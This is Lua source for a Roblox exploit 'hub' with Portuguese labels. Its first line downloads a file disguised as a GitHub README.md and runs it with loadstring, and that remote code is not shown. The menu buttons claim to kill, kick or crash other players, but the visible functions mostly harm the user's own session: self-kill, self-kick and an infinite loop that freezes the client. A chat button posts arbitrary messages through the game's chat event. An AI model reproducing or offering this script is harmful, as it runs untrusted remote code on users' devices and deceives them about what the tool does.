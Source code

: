 loadstring(game:HttpGet("https://raw.githubusercontent.com/Benjamim-b/Ksksks.txt/refs/heads/main/README.md"))()

local Players = game:GetService("Players")
local player = Players.LocalPlayer

local screenGui = Instance.new("ScreenGui")
screenGui.Name = "Benjamim Hub"
screenGui.ResetOnSpawn = false
screenGui.Parent = player:WaitForChild("PlayerGui")

local frame = Instance.new("Frame")
frame.Size = UDim2.new(0,300,0,500)
frame.Position = UDim2.new(0.05,0,0.2,0)
frame.BackgroundColor3 = Color3.fromRGB(30,30,30)
frame.BorderSizePixel = 0
frame.Parent = screenGui
frame.Active = true
frame.Draggable = true

local function createButton(text,posY,callback)
    local btn = Instance.new("TextButton")
    btn.Size = UDim2.new(0,260,0,40)
    btn.Position = UDim2.new(0,20,0,posY)
    btn.Text = text
    btn.TextSize = 18
    btn.BackgroundColor3 = Color3.fromRGB(50,50,50)
    btn.TextColor3 = Color3.fromRGB(255,255,255)
    btn.Parent = frame
    btn.MouseButton1Click:Connect(callback)
end

local targetNameVal = Instance.new("StringValue")
targetNameVal.Name = "TargetName"
targetNameVal.Value = ""
targetNameVal.Parent = player

local messageVal = Instance.new("StringValue")
messageVal.Name = "MessageToSend"
messageVal.Value = "Bem vindo"
messageVal.Parent = player

local function sendChatCommand(cmd)
    game:GetService("ReplicatedStorage").DefaultChatSystemChatEvents.SayMessageRequest:FireServer(cmd,"All")
end

local function doKill() if player.Character and player.Character:FindFirstChild("Humanoid") then player.Character.Humanoid.Health = 0 end end
local function doKick() player:Kick("Você se expulsou via KitK4t Hub") end
local function doBring() if player.Character and player.Character:FindFirstChild("HumanoidRootPart") then player.Character.HumanoidRootPart.CFrame = CFrame.new(Vector3.new(0,10,0)) end end
local function doCrash() while true do task.spawn(function() end) end end
local function doVerifique() sendChatCommand(";verifique") end
local function doChatTroll() sendChatCommand(";chatTroll "..targetNameVal.Value.." "..messageVal.Value) end

createButton("matar o Player",20,doKill)
createButton("Explusar o jogador do game",70,doKick)
createButton("Bring Pra o player sair voando",120,doBring)
createButton("Crash Player",170,doCrash)
createButton("Verificar se tem pessoa usando o hub",220,doVerifique)
createButton("ChatTroll",270,doChatTroll)

local targetBox = Instance.new("TextBox")
targetBox.Size = UDim2.new(0,260,0,40)
targetBox.Position = UDim2.new(0,20,0,320)
targetBox.PlaceholderText = "Nome do jogador (para chatPlayer)"
targetBox.TextSize = 18
targetBox.BackgroundColor3 = Color3.fromRGB(40,40,40)
targetBox.TextColor3 = Color3.fromRGB(255,255,255)
targetBox.ClearTextOnFocus = false
targetBox.Parent = frame
targetBox:GetPropertyChangedSignal("Text"):Connect(function() targetNameVal.Value = targetBox.Text end)

local messageBox = Instance.new("TextBox")
messageBox.Size = UDim2.new(0,260,0,40)
messageBox.Position = UDim2.new(0,20,0,370)
messageBox.PlaceholderText = "Mensagem do chatPlayer"
messageBox.TextSize = 18
messageBox.BackgroundColor3 = Color3.fromRGB(40,40,40)
messageBox.TextColor3 = Color3.fromRGB(255,255,255)
messageBox.ClearTextOnFocus = false
messageBox.Parent = frame
messageBox:GetPropertyChangedSignal("Text"):Connect(function() messageVal.Value = messageBox.Text end)
